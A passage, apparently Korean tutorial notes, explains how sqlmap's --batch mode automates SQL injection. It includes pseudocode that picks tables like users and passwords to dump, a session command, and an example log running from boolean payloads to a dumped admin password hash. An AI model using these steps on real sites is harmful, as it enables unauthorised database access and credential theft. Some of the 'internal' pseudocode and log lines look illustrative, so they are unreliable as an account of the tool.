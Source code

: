 - **핵심 테이블 우선순위 자동 선정**:
  ```python
  priority_tables = ['users','accounts','customers','passwords']
  for table in priority_tables:
      if table in detected_tables:
          dump_data(table)
  ```

### 5. 세션 관리 및 재개

- **자동 세션 저장**:
  ```bash
  # 실제 내부 동작
  sqlmap --save -s ~/.sqlmap/output/session.sqlite
  ```

### `--batch` 모드의 핵심 자동화 원리

1. **모든 대화형 프롬프트에 기본값 적용**:

   ```python
   # 의사코드 예시
   def prompt(question, default='Y'):
       if '--batch' in sys.argv:
           return default
       # ... 사용자 입력 대기
   ```

2. **최소한의 위험 설정**:

   - `--level=1` (기본 테스트만 수행)
   - `--risk=1` (낮은 위험도 공격만 시도)

3. **지능형 결정 알고리즘**:
   ```python
   if vulnerable and not sensitive_data:
       continue_attack = True  # 공격 계속 진행
   elif sensitive_data_detected:
       ask_permission = False  # --batch는 자동 계속
   ```

### 실제 내부 로그 예시 (요약)

```log
[INFO] testing connection to target
[INFO] testing if parameter 'id' is dynamic
[PAYLOAD] 1 AND 1=1
[PAYLOAD] 1 AND 1=2
[INFO] parameter 'id' is vulnerable
[INFO] DBMS: MySQL >= 5.0
[INFO] fetching database names
[INFO] resumed: ['information_schema', 'webapp']
[INFO] fetching tables for database 'webapp'
[INFO] resumed: ['users','products','logs']
[INFO] auto-selecting table 'users'
[INFO] fetching columns for table 'users'
[INFO] resumed: ['id','username','password']
[INFO] dumping table 'users'
[INFO] resumed: (1, 'admin', '9f86d081...')
```
